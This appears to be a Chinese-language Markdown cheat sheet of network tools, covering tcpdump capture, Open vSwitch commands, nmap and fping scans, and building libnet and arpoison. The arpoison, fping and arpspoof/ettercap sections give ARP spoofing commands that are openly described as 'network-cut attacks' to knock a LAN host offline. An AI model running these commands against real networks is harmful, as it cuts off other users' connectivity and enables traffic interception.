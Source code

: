 <!-- TOC depthFrom:1 depthTo:6 withLinks:1 updateOnSave:1 orderedList:0 -->

- [tcpdump](#tcpdump)
	- [抓包](#抓包)
- [ovs-vsctl](#ovs-vsctl)
- [nmap](#nmap)
	- [扫描](#扫描)
- [arpping](#arpping)
- [libnet](#libnet)
- [arpison](#arpison)
- [wireshark](#wireshark)
- [fping](#fping)
- [arpspoof](#arpspoof)
- [ifstat](#ifstat)

<!-- /TOC -->

# tcpdump
check complain mode   
tcpdump: test1.log: Permission denied  
开始以为是用户权限的问题，后来换用root账户还是不行，经搜索，是AppArmor的问题  
apt-get install apparmor-utils
sudo aa-complain /usr/sbin/tcpdump  

截取gre数据包  
tcpdump |grep -i "gre"  

## 抓包
tcpdump -i eth0 -nn 'host 192.168.2.249' -w check.cap
tcpdump -i eth0 -nn 'host 192.168.2.246' -w check.cap
tcpdump  -p arp
tcpdump host 192.168.2.1 -w check.cap
抓取网口eth0上源mac地址或目的mac地址为00:21:85:6C:D9:A3的所有数据包  
tcpdump -i eth0 ether src or dst 34:97:f6:99:a1:ed -w check.cap   

sudo tcpdump -n -r arp_check222.cap|awk -F '[,]+' '{print $2}'|sort|uniq -c|sort -n  

# ovs-vsctl
查看 open vswitch 的网络状态:ovs-vsctl show  
查看网桥 br-tun 的接口状况：ovs-ofctl show br-tun  
查看网桥 br-tun 的流表：ovs-ofctl dump-flows br-tun   
添加网桥：#ovs-vsctl add-br br0  
将物理网卡挂接到网桥：#ovs-vsctl add-port br0 eth0   

列出 open vswitch 中的所有网桥：#ovs-vsctl list-br  
判断网桥是否存在：#ovs-vsctl br-exists br0  
列出网桥中的所有端口：#ovs-vsctl list-ports br0  
列出所有挂接到网卡的网桥：#ovs-vsctl port-to-br eth0  
删除网桥上已经挂接的网口：#vs-vsctl del-port br0 eth0  
删除网桥：#ovs-vsctl del-br br0  


# nmap
## 扫描
nmap -sP 192.168.2.0/24

# arpping

用法举例：比如我的ip 192.168.1.101 网关:192.168.1.1  
arping -U -I eth0 -s 192.168.2.88 192.168.2.1  
arping -U -I eth0 -s 192.168.1.229 192.168.1.1  

# libnet
wget https://nchc.dl.sourceforge.net/project/libnet-dev/libnet-1.1.6.tar.gz  
tar zxvf libnet-1.1.6.tar.gz  
cd libnet-1.1.6/  
sudo ./configure  
sudo make  
sudo make install  


# arpison
gcc arpoison.c /usr/local/lib/libnet.a -o arpoison  
sudo ln -sf arpoison /bin/arpoison  

比如我想防止arp 攻击
sudo arpoison -i eth0 -d 192.168.1.1 -s 192.168.1.101 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7

比如我想攻击192.168.1.50的机器不让他上网
sudo arpoison -i eth0 -d 192.168.1.50 -s 192.168.1.1 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7
sudo arpoison -i enp4s0 -d 192.168.2.249 -s 192.168.2.1 -t ff:ff:ff:ff:ff:ff -r 1c:1b:0d:2d:94:87

# wireshark  
sudo apt-add-repository ppa:wireshark-dev/stable  
sudo apt-get update  
sudo apt-get install wireshark  
sudo dpkg-reconfigure wireshark-common  

# fping
在一个局域网中，我们如果要对某个主机进行断网攻击的话，我们先要查看局域网中的ip  
fping –asg 10.10.10.0/24  

# arpspoof
进行断网攻击  
sudo arpspoof -i enp4s0 -t 192.168.2.252 192.168.2.254  
ettercap -Tq -i enp4s0  

# ifstat
流量监控;  
sudo atp-get install ifstat
